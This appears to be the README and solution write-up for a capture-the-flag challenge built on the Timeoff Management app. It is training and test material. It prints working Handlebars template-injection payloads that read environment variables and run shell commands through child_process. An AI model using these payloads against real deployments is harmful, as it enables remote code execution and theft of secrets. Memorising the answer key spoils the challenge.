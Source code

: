 # Vacation Planner Docker Target

This repo contains code to set up [Timeoff Management](https://github.com/timeoff-management/timeoff-management-application) as a Docker container.

The app's code is included in a submodule of this repo.

## Usage

1. Change the contents of `flag.txt`
2. `docker build -t vacation-planner .`
3. `docker run -p 3000:3000 --name vacation-planner vacation-planner`

## Exploit

After navigating to the website, you are presented with a login form. Register a new company with bogus details to access the full functionality of the web application.

There is much to browse and test, but eventually you should find the "mass email" page.

Once you try to preview a message that includes `{{`, aiming to find a server-side template injection (SSTI) vulnerability, you are presented with an error message:

```
Error: Parse error on line 1:
{{
--^
Expecting 'ID', 'STRING', 'NUMBER', 'BOOLEAN', 'UNDEFINED', 'NULL', 'DATA', got 'EOF'
    at Parser.parseError (/var/lib/vacation-planner/timeoff-management-application/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267:19)
    at Parser.parse (/var/lib/vacation-planner/timeoff-management-application/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:336:30)
    at HandlebarsEnvironment.parse ...
...
```

From the error message, it is possible to see that Handlebars is being used for template rendering. A quick investigation gives us http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html and the following payload:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Using this as the message body, we can read the environment variables and confirm SSTI.

After trying to get code execution using normal means, it is apparent that `require` keyword is not available in the limited sandbox provided by Handlebars.

Based on https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/, it is possible to bypass the `require` requirement by using `global.process.mainModule.constructor._load` instead.

Final exploit:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return global.process.mainModule.constructor._load(\"child_process\").execSync(\"cat flag.txt\").toString();"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

The message preview will show the results, proving command execution is possible:

```
      e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            flag{with_with_with_with_each_with_this}
```

## Testing Notes

1. The challenge website has a lot to explore. I think it would take a decent amount of time to figure out that the "mass email" function is where the template injection vulnerability lies. Idk if this would factor into the difficulty of the challenge, but I do think this would eat up a bit of time for people. Especially if the challenge description has no hints on what or where the vulnerability is.

2. I don't have experience with Javascript templates, but once I located the "mass email" page, any message with double curly braces resulted in an error message. I wasn't able to notice the "handlebars" template in the error message at first, but I think for people that have more experience with Javascript templates, it wouldn't take them long to realize that it is a template injection vulnerability with the "handlebars" Javascript template language.

3. After that, googling "handlebars template injection" gave me a bunch of blog posts. There is a lot of material online to read on it, especially regarding a vulnerability in the Shopify app. Interestingly, when I google "handlebars template injection ctf", this is the first link that comes up (https://ctftime.org/writeup/16447). It's from CSAW Quals 2019 about a challenge called "Buyify". Seems like the exact same vulnerability as the challenge we have here. It was a 500 point web challenge in CSAW Quals 2019.

4. As for coming up with the actual injection payload, I can't say much about that. Personally I do not think I would have ever gotten the right payload within the duration of the competition. But who knows, with the amount of online writeups on "handlebars template injection", maybe I could have.
Overall, it seems like a very similar challenge to the one used in previous CSAW Quals. The old challenge was weighted 500 points, but I'm sure having access to the writeup for that challenge will make this one much easier for a lot of people.
